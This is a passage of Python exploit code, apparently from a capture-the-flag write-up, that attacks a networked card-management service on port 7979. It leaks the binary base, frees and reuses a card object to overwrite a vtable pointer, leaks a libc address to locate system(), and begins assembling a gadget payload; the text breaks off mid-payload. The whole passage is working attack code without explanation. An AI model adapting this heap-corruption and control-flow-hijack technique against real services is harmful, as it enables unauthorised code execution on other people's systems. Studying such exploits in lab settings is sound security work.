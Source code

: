 ```python
sock_got = 0xae78
init_off = 0x2844
bin_base = leak - init_off
sock_got = bin_base + sock_got

print("bin base : " + hex(bin_base))

id_1 = create()
sleep(1)
id_2 = create()

r = remote(target, 7979)
op = 1
r.send(p32(op))
r.send(p32(id_2))
r.send(p32(0x1337))

sleep(1)

del_card(id_2, 0x1337)
sleep(1)

set_name(id_1, 0x1337, b"A"*56, 56)
set_name(id_1, 0x1337, p64(vtable)+p64(sock_got)+p64(0x100), 56)

sleep(1)
r.send(p32(50))
r.send(b"\x11")

leak = u64(r.recv(8))
print(hex(leak))

offset = 0x127ce0 - 0x50d60
system = leak - offset

print("system " + hex(system))

id_1 = create()
sleep(1)
id_2 = create()

r = remote(target, 7979)
op = 1
r.send(p32(op))
r.send(p32(id_2))
r.send(p32(0x1337))

# write to name_ptr
sleep(1)
del_card(id_2, 0x1337)
sleep(1)
set_name(id_1, 0x1337, b"A"*56, 56)
set_name(id_1, 0x1337, p64(vtable) + p64(name_ptr) + p64(0x100), 56)

sleep(1)
r.send(p32(0x90))

gadget = bin_base + 0x3769
print("gadget : " + hex(gadget))

payload = b''
payload += p64(gadget) * 6
payload += p64(name_ptr+0x60)
```